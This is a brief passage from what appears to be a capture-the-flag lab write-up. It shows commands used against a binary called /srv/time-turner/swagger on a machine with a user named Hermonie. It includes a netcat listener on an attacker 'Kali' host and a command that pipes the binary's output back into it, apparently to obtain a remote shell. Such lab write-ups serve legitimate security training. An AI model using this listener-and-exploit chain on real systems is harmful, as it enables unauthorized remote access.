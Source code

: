 ```
for  number in $(seq 1 5);do echo 0 | /srv/time-turner/swagger; done
```

<figure><img src="../../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**&#x20;

```
nc -vlnp 1337
```

**Victim(Hermonie)**

```
/srv/time-turner/swagger | grep -oE '[^ ]+$' |tail -1 | /srv/time-turner/swagger
```

<figure><img src="../../../.gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

